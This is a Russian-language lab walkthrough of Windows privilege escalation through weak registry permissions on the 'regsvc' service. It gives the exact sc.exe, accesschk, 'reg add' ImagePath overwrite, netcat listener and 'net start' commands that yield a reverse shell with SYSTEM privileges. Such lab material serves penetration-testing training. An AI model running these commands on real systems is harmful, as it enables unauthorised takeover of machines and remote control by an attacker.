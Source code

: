 🐾 5. Эксплуатация служб - Слабые права на реестр
---
## 📜 Описание задания
В этом задании мы будем использовать уязвимость в реестре, связанный с сервисом `regsvc`, который работает с привилегиями SYSTEM. Уязвимость заключается в том, что запись реестра, используемая для указания пути к исполняемому файлу, имеет слабые права доступа, что позволяет изменить её. Мы воспользуемся этим, чтобы указать путь к нашему исполняемому файлу и получить обратный шелл с привилегиями SYSTEM.

---
## 🔍 Шаг 1: Проверка конфигурации сервиса
Сначала проверим конфигурацию сервиса `regsvc`, чтобы убедиться, что он работает с привилегиями SYSTEM и имеет уязвимость в реестре. Выполните следующую команду:
`sc.exe qc regsvc`

### 📋 Ожидаемый вывод
- Убедитесь, что `SERVICE_START_NAME` указывает на SYSTEM.
- Проверьте, что путь к исполняемому файлу может быть уязвим для записи.
![image](https://github.com/user-attachments/assets/fcad07e5-5d73-42e5-95f8-92ca0adc6032)

## 🔑 Шаг 2: Проверка прав доступа к записи реестра
Теперь мы используем инструмент `accesschk.exe`, чтобы проверить права доступа к записи реестра для сервиса `regsvc`. Выполните следующую команду:
`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

### 📋 Ожидаемый вывод
- Убедитесь, что группа `NT AUTHORITY\INTERACTIVE` (или все пользователи, вошедшие в систему) имеет права на запись в запись реестра.
![image](https://github.com/user-attachments/assets/0480858d-0e9e-479d-8b72-d23660aabb13)

## 📝 Шаг 3: Перезапись ключа реестра
Теперь мы изменим ключ реестра `ImagePath`, чтобы указать путь к нашему исполняемому файлу `reverse.exe`. Выполните следующую команду:
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

### 📋 Ожидаемый вывод
- Убедитесь, что ключ `ImagePath` был успешно изменен и указывает на `reverse.exe`.
![image](https://github.com/user-attachments/assets/e29a79bb-671d-4ccc-8f7b-cfa2b56c31ee)

## 🎧 Шаг 4: Запуск слушателя
Перед запуском сервиса убедитесь, что у вас запущен слушатель на Kali. Выполните следующую команду для запуска слушателя на Kali:
`nc -lvnp 53`

## 🚀 Шаг 5: Запуск сервиса
Теперь мы можем запустить сервис `regsvc`, который должен выполнить наш файл `reverse.exe` и предоставить нам обратный шелл с привилегиями SYSTEM. Выполните команду:
`net start regsvc`

### 📋 Ожидаемый вывод
- Убедитесь, что вы получили обратный шелл на Kali.
![image](https://github.com/user-attachments/assets/fdccd94b-bdb7-4a7d-8370-9235cf78d6af)

## 🎉 Поздравления!
Вы успешно использовали уязвимость в реестре для получения обратного шелла с привилегиями SYSTEM! 🎊

## 📌 Примечания
- Убедитесь, что вы понимаете все шаги и их последствия.
- Используйте полученные знания ответственно и только в рамках разрешенных тестов на проникновение.
